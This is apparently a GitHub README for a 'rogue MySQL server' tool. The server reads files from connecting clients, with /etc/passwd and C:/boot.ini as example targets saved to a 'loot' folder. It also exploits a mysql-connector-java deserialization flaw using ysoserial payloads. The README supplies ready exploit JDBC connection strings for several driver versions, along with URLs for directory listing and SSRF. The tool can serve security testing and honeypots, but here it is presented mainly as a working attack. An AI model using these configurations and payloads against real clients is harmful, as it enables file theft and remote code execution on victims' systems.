 # Rogue Mysql Server

A rouge mysql server based on https://github.com/vitessio/vitess, support common mysql libraries for multiple programming languages.  
No more annoying compatible problems. You can get tested libraries in the following table.

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

If you find this tool helped you, please star 🌟 this repository.

## Feature

* Compatible with common mysql libraries
* Capability for reading binary files
* Automatic save the file
* Optional password verification if you want to use it as honeypot
* Read client's connection attributes, which may contain some useful information
* For mysql-connector-java, have the ability to exploit deserialize vulnerability when the jdbc connection string is controlled by user

## Usage

Generate the template config file, you can skip this step if you already have it.
```sh
./rogue_mysql_server -generate
```

Run rouge mysql server using config.yaml.
```sh
./rogue_mysql_server
```

Or if you want to specify a config file.
```sh
./rogue_mysql_server -config other_config.yaml
```

## Config

Example:
```yaml
host: 0.0.0.0
port: 3306
# Listening ip address and port.

version_string: "10.4.13-MariaDB-log"
# What version string client will get.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# Files that waiting to be read. You need to notice that it doesn't mean you can read all files at once (many mysql libraries don't support this feature).
# The server will actually read one file in the list sequentially while the client sends one query.

always_read: true
# If this option is set to true, the rouge server won't check the client's hint of whether it supports LOAD DATA LOCAL, and always try to read the file.
# Otherwise, the rouge server will respect the client's hint.

from_database_name: false
# If this option is set to true, the rogue server will get the filename from the database name provided by the client instead of `file_list`.
# E.g. `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# The server will try to read `/etc/hosts` instead of the file in `file_list`.

max_file_size: 0
# Max size of the reading file (unit in bytes). Any content in the file that exceeds this size limit will be discarded.
# If the size is less than or equal to zero, meaning no limit on size.

auth: false
users:
  - root: root
  - root: password
# If set auth to `false`, the server won't check the client's auth username and password.
# Otherwise, it must match one of `users`.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# See section `mysql-connector-java deserialize vulnerability exploit`
```

## mysql-connector-java deserialize vulnerability exploit

After version 8.0.20 and 5.1.49, this vulnerability has been fixed.  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

The related configuration of vulnerability exploit is as follows.
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

If `jdbc_exploit` is true, the server will automatically exploit the vulnerability if the client is mysql-connector-java. The `jdbc_exploit` will disable the function of file reading, meaning you can't read the client file and exploit deserialize vulnerability at the same time.
If `always_exploit` is true, the server won't check if the client is mysql-connector-java and always try to exploit deserialize vulnerability.
The `ysoserial_command` is the command that generates deserialize payload.

You can specify the payload that will be used by the parameter `connectionAttributes` in the jdbc connection string.  
The server will get the payload that key name equals the value of `t` in `connectionAttributes`. If not found, it will use first payload in `ysoserial_command` list.

For example:    
Exploit this vulnerability in version 8.x with payload cc7. The connection string is `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

Be aware that the server only exploits `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`, you can refer to the table below:

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

Additionally, the mysql-connector-java support use URL (like file://, http://) as filename, to achieve listing directory or SSRF, but you need set `allowLoadLocalInfile` to true in connection string.  
You can check details in [here](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* Listing `/` directory, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`

## Ref

mysql-connector-java vulnerability exploit:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql protocol related:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
